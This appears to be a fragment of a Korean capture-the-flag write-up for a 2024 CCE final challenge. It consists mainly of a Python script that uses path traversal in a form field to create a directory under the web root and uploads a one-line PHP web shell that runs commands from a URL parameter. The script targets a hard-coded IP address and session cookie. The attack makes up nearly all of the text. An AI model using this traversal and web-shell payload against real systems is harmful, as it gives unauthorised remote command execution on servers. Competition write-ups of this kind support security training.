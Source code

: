 ## Exploit Code     
                
<img src="/assets/images/ctf/2024/cce-final/04/0.jpg" width=700px>      
         
회원 가입 시, 경로 조작을 통해 `/var/www/html/helloworld2/` 폴더를 생성해준다.       
      
```python
import requests 

url = "http://52.231.230.112:8090"

s = requests.session() 
r = s.post(
    f"{url}/api/report_check.php",
    cookies={"PHPSESSID":"7fc2b8de800b11381d9bcd4dd4b0e62a"}, # remote
    data={ 
        'name': "../../var/www/html/helloworld2/",
        "content": "asdf"
    }, 
    files={
        "evidence": ('.php', "<?php system($_GET['c']); ?>", 'application/zip')
    },
    allow_redirects=False
)

print(r.status_code) 
```     
`/var/www/html/helloworld2/` 경로에 웹쉘을 업로드해준다.    
        